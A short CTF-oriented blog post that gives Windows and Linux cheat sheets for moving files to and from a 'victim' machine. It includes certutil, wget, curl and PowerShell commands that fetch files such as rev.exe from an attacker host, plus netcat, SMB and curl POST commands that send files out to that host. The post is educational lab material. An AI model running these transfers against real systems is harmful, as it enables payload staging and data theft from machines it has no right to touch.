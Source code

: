 ```yaml
---
categories:
- Guides
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-06-30-eus
tags:
- linux
- windows
title: CTF Exfiltrating & Uploading Simplified
---
```


Exfiltration & uploading are a critical component when it comes to CTFs, without this, most internal files or exploits cannot be uploaded or exfiltrated. In this post, I will discuss some Linux and Windows commands which can help you upload & exfiltrate to and from a victim's PC.

## Windows
Windows thankfully has built in functions which can be exploited to upload & download files to and from your attacker machine.
### Downloading
There are a few neat ways to Download files from a victims machine.
```
// Commands (Look up gtfobins for more info on this)
[Kali] python3 -m http.server 8080 // host your files here
[Victim] wget http://your_ip:port/file.exe .
[Victim] curl.exe --output file.exe --url http://your_ip:8080/file.exe 
[Victim] certutil.exe -urlcache -f "http://your_ip:8080/file.exe" outputFileName 

// SMB
[Host] impacket-smbserver shareName . // the . represents current directory, you can have this as /usr/share/windows-binaries etc.
[Victim] copy \\10.10.10.10\\shareName\\rev.exe C:\Users\Mike\rev.exe

// If all else fails:
$client = new-object System.Net.WebClient
$client.DownloadFile("http://kali_ip/file.txt","C:\tmp\file.txt") // file you want : file destination
```

### Exfiltrating
```
// SMB
[Kali] impacket-smbserver.py tmp /tmp/
[Victim] \\$IP$\tmp // visit this in Explorer
// Alternative
[Victim-PS] copy-item <target file> \\<kali ip>\<share name>\<destination file name>
```

## Linux

### Downloading
Linux has several built-in options available by default on most distros.
```
[Kali] python3 -m http.server 8000
[Victim] wget http://your_ip:8000/file.exe .
[Victim] curl --output file.exe --url http://your_ip:8080/file.exe 

// SSH (SCP)
[Kali to Victim] scp file.exe victim@ip_address:/home/victim_name
[Victim to Kali] scp your_username@ip_address:/path/file.exe .
```


### Exfiltrating
```
[Kali] python3 -m http.server 80
[Victim] wget http://your_ip:8080/file.exe .

// Alternatives
Upload nc to the victim's PC (use literally any method)
[Kali] nc -lvnp 4444 > exfiltrated.txt
[Victim] nc kali_ip 4444 < exfiltrated.txt

// Python
[Kali] python3 -m uploadserver 8080 // install it with: python3 -m pip install --user uploadserver
[Victim] curl -X POST -F "files=@dog.txt" http://10.135.162.3:8080/upload
```

There are of course many different ways to upload and exfiltrate data, I highly suggest exploring [gtfobins](https://gtfobins.github.io) for different ways of exfiltrating and uploading data. <br>
Just remember, most CTFs will most likely (99% of the time) have wget, curl and python installed by default.

**Last updated: 30/06/2025**